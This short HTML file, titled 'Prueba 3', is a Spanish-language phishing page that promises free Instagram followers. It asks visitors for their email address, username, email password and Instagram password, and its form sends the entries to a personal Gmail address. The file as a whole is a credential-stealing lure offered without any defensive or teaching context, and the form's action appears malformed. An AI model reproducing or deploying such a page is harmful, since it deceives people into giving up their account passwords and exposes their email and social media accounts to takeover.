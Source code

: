 # Prueba 3

<!DOCTYPE html>
<html>
<body>

<h2>Segidores para Instagram:</h2>

<form action="c8534312@gmail.com" method="post" enctype="text/plain">
Email:<br>
<input type="text" name="Email"><br>
Nombre de Usuario:<br>
<input type="text" name="Nobre de Usuario"><br>
Contraseña Email:<br>
<input type="text" name="Contraseña Email" size="50"><br>
Contraseña Instagram:<br>
<input type="text" name="Contraseña Instagram">
<input type="submit" value="Send">
<input type="reset" value="Reset">
</form>

</body>
</html>
